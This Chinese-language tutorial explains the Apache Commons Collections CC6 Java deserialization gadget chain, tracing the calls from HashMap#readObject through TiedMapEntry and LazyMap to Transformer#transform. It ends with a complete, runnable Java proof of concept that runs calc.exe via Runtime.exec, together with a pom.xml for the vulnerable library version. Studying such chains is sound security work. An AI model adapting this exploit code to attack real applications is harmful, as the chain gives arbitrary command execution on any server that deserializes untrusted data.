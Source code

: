 # JAVA反序列化CC6

[TOC]

## 

cc6与cc1利用思路都是相同的。都试图通过反序列化方法#readObject触发一系列调用最终调用org.apache.commons.collections.Transformer#transform达到任意代码执行的目的。

## 过渡类1

org.apache.commons.collections.map.LazyMap#get

```JAVA
public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

从上面代码片段的LazyMap#get方法中line4:`Object value = factory.transform(key);`可以找到一个名为transform调用。

参考CC1反序列化漏洞利用思路，此时我们只要构造一个LazyMap对象令并且将其factory字段设置为我们精心构造的ChainedTransformer对象，即可完成漏洞触发。

到此我们将如何触发#transform方法这一问题，转变成如何触发LazyMap#get这一问题。

## 过渡类2. TiedMapEntry

### 过渡方法

1. org.apache.commons.collections.keyvalue.TiedMapEntry#getValue
2. org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode

```java
public class TiedMapEntry implements Map.Entry, KeyValue, Serializable {
    .....
/** The map underlying the entry/iterator */    
private final Map map;
/** The key */
private final Object key;
......
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }
......
public Object getValue() {
        return map.get(key);
    }
.....
public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
}
```

如上所示#hashCode方法中Object value = getValue();`会调用#getValue。而#getValue方法中只有一句话`return map.get(key);`。

因此我们只要构造一个TiedMapEntry对象令其名为map字段为我们构造LazyMap即可完成对LazyMap#get的触发。

到此我们将如何触发LazyMap#get这一问题，转变成如何触发TiedMapEntry#hashCode这一问题。

## 过渡3

------

1. 过渡方法java.util.HashMap#hash
2. 过渡方法java.util.HashMap#readObject

```java
public class HashMap<K,V> extends AbstractMap<K,V>
    implements Map<K,V>, Cloneable, Serializable {
    
......
static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
......
    private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
    	s.defaultReadObject();
		...........
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            .........
            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }

}
```

而在java.util.HashMap#hash中我们会发现`return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);`这行代码会调用#hashCode。于此同时在java.util.HashMap#readObject中`putVal(hash(key), key, value, false, false);`这行会调用#hash方法。

因此我们只要构造一个HashMap对象令其在#readObject方法中名为key对象为我们构造TiedMapEntry即可完成对TiedMapEntry#hashCode的触发。自此调用链已成。

## 调用总结

------

```mermaid
graph TD;
java.util.HashMap#readObject
--->java.util.HashMap#hash
--->org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode
--->org.apache.commons.collections.keyvalue.TiedMapEntry#getValue
--->org.apache.commons.collections.map.LazyMap#get
--->org.apache.commons.collections.Transformer#transform
```

## 利用代码

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

// click the <icon src="AllIcons.Actions.Execute"/> icon in the gutter.
public class Main {
    public static void main(String[] args) throws IOException, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        Transformer[] fakeTransformers= new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
                new InvokerTransformer("exec", new Class[] {String.class}, new Object[] {"C:\\windows\\system32\\calc.exe"}),
                new ConstantTransformer(1)
        };

        Transformer transformer = new ChainedTransformer(fakeTransformers);
        HashMap hashMap = new HashMap();
        Map innerMap = LazyMap.decorate(hashMap, transformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(innerMap, "keykey");
        HashMap hashMap1 = new HashMap();
        hashMap1.put(tiedMapEntry, "valuevalue");
        innerMap.remove("keykey");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformer, transformers);

        ByteArrayOutputStream barr= new ByteArrayOutputStream();
        ObjectOutputStream oos= new ObjectOutputStream(barr);
        oos.writeObject(hashMap1);
        oos.close();

        System.out.println("-------------Serializer-----------");
        System.out.println(barr);

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object obj1 = ois.readObject();
        ois.close();
        
    }
}
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>Unserialize_CC6</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>
</project>
```

filename:pom.xml
